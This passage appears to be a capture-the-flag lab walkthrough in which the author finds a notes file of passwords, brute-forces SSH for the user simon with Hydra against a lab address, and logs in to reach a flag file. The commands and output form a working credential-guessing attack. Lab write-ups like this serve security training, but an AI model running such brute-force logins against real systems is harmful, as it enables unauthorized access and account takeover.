 We got a `mynotes.txt` file. Looking at the contents it looks like a list of passwords:

```
$ cat mynotes.txt
234987123948729384293
+23358093845098
ThatsMyBigDog
Rock!ng#May
Puuuuuh7823328
8Ns8j1b!23hs4921smHzwn
237oHs71ohls18H127!!9skaP
238u1xjn1923nZGSb261Bs81
```

Juicy. We also have the username of `simon`. Let's test if any of these passwords work with our `simon` user over SSH.

```
┌──(kali㉿DESKTOP-JETQH0C)-[~/mediumcommonsrvcs]
└─$ hydra -l simon -P mynotes.txt 10.129.201.127 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-02 18:04:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.129.201.127:22/
[22][ssh] host: 10.129.201.127   login: simon   password: 8Ns8j1b!23hs4921smHzwn
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-02 18:04:34
```

Sweet! We're in!

```
$ ssh simon@10.129.201.127                                                                                            
The authenticity of host '10.129.201.127 (10.129.201.127)' can't be established.                                        ED25519 key fingerprint is SHA256:HfXWue9Dnk+UvRXP6ytrRnXKIRSijm058/zFrj/1LvY.                                          This host key is known by the following other names/addresses:                                                              ~/.ssh/known_hosts:12: [hashed name]                                                                                Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                Warning: Permanently added '10.129.201.127' (ED25519) to the list of known hosts.                                       simon@10.129.201.127's password:                                                                                        Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
<..output ommitted..>
Last login: Wed Apr 20 14:32:33 2022 from 10.10.14.20
simon@lin-medium:~$ ls
flag.txt  Maildir
```
